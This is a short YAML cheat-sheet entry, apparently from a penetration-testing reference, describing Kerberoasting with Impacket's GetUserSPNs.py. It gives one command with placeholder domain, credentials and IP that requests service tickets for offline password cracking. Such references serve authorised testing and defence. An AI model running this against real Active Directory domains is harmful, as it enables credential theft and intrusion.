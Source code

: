 ```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1
  
  	Domain: test.local

  	Username: john

  	Password: password123

functions:
  Password:
    - code: |
        python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
  Username:
    - code: |
        empty
  Kerberos:
    - code: |
        empty
---
```

